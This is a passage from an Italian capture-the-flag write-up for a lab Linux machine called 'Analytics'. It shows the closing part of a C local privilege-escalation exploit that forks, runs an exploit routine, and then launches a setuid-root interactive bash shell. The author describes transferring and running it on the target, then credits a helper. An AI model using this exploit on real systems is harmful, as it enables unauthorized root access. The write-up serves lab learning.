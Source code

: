 ```text
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```

Trasferisco il file compilato alla macchina _analytics_ e lo eseguo:


<p align="center">
  <img src="/Immagini/Linux-Box/Analytics/analytics-7.png" />
</p>


## Credits

Ringrazio **Kayiz** per l'aiuto prezioso che mi ha permesso di ottenere il secondo flag:

<p align="center">